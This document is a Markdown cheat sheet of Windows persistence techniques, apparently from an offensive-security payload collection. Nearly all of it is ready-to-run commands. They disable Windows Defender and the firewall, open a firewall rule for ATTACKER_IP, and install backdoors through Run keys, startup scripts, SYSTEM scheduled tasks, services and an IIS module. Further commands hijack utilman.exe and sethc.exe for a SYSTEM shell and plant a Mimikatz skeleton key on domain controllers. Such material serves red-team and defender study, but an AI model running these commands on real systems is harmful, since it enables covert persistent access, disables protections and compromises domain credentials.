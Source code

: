 # Windows - Persistence

## Summary

* [Tools](#tools)
* [Disable Windows Defender](#disable-windows-defender)
* [Disable Windows Firewall](#disable-windows-firewall)
* [Userland](#userland)
    * [Registry](#registry)
    * [Startup](#startup)
    * [Scheduled Task](#scheduled-task)
* [Serviceland](#serviceland)
    * [IIS](#iis)
    * [Windows Service](#windows-service)
* [Elevated](#elevated)
    * [HKLM](#hklm)
    * [Services](#services)
    * [Scheduled Task](#scheduled-task)
    * [Binary Replacement](#binary-replacement)
        * [Binary Replacement on Windows XP+](#binary-replacement-on-windows-xp)
        * [Binary Replacement on Windows 10+](#binary-replacement-on-windows-10)
    * [RDP Backdoor](#rdp-backdoor)
        * [utilman.exe](#utilman.exe)
        * [sethc.exe](#sethc.exe)
    * [Skeleton Key](#skeleton-key)
* [References](#references)


## Tools

- [SharPersist - Windows persistence toolkit written in C#. - @h4wkst3r](https://github.com/fireeye/SharPersist)

## Disable Windows Defender

```powershell
sc config WinDefend start= disabled
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Windows Firewall

```powershell
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off

# ip whitelisting
New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```

## Userland

Set a file as hidden

```powershell
attrib +h c:\autoexec.bat
```

### Registry

Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using SharPersist

```powershell
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

### Startup

Create a batch script in the user startup folder.

```powershell
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using SharPersist

```powershell
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```

### Scheduled Task

```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

Using SharPersist

```powershell
# Add to a current scheduled task
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

# Add new task
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
```

## Serviceland

### IIS

IIS Raid – Backdooring IIS Using Native Modules

```powershell
$ git clone https://github.com/0x09AL/IIS-Raid
$ python iis_controller.py --url http://192.168.1.11/ --password SIMPLEPASS
C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module Name /image:"%windir%\System32\inetsrv\IIS-Backdoor.dll" /add:true
```

### Windows Service

Using SharPersist

```powershell
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```

## Elevated

### HKLM

Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

### Services

Create a service that will start automatically or on-demand.

```powershell
PS C:\> New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here."
```

### Scheduled Tasks

Scheduled Task to run as SYSTEM, everyday at 9am.

```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -Daily -At 9am
PS C:\> $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

### Binary Replacement

#### Binary Replacement on Windows XP+

| Feature             | Executable                            |
|---------------------|---------------------------------------|
| Sticky Keys         | C:\Windows\System32\sethc.exe         |
| Accessibility Menu  | C:\Windows\System32\utilman.exe       |
| On-Screen Keyboard  | C:\Windows\System32\osk.exe           |
| Magnifier           | C:\Windows\System32\Magnify.exe       |
| Narrator            | C:\Windows\System32\Narrator.exe      |
| Display Switcher    | C:\Windows\System32\DisplaySwitch.exe |
| App Switcher        | C:\Windows\System32\AtBroker.exe      |

#### Binary Replacement on Windows 10+

Exploit a DLL hijacking vulnerability in the On-Screen Keyboard **osk.exe** executable.

Create a malicious **HID.dll** in  `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.


### RDP Backdoor

#### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe
 
Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Skeleton Key

```powershell
# Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>

# Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

## References

* [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
* [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
* [SharPersist Windows Persistence Toolkit in C - Brett Hawkins](http://www.youtube.com/watch?v=K7o9RSVyazo)
* [IIS Raid – Backdooring IIS Using Native Modules - 19/02/2020](https://www.mdsec.co.uk/2020/02/iis-raid-backdooring-iis-using-native-modules/)
* [Old Tricks Are Always Useful: Exploiting Arbitrary File Writes with Accessibility Tools - Apr 27, 2020 - @phraaaaaaa](https://iwantmore.pizza/posts/arbitrary-write-accessibility-tools.html)